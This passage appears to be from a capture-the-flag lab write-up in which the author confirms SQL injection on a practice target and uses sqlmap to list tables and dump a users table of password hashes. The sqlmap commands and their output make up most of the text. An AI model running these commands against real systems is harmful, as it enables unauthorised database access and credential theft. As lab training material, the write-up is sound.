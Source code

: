 It is vulnerable to SQL Injection attack. And initially it retrieves all existing databases.
Let me extract more information.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -r status.req --batch -D status --tables
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.7#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org 

<SNIP>

[13:35:58] [INFO] fetching tables for database: 'status'
Database: status
[2 tables]
+---------+
| company |
| users   |
+---------+

[13:35:59] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/status.inlanefreight.local'                                                              

[*] ending @ 13:35:59 /2024-12-25/


┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -r status.req --batch -D status -T users --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.7#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org          

<SNIP>

[13:36:52] [INFO] fetching entries for table 'users' in database 'status'
Database: status
Table: users
[2 entries]
+----+-----------------------------------+----------+
| id | password                          | username |
+----+-----------------------------------+----------+
| 1  | 4528342e54d6f8f8cf15bf6e3c31bf1f6 | Admin    |
| 2  | 1fbea4df249ac4f4881a5da387eb297cf | Flag     |
+----+-----------------------------------+----------+

[13:36:53] [INFO] table '`status`.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/status.inlanefreight.local/dump/status/users.csv'                                      
[13:36:53] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/status.inlanefreight.local'                                                              

[*] ending @ 13:36:53 /2024-12-25/



┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -r status.req --batch -D status -T company --dump

<SNIP>
```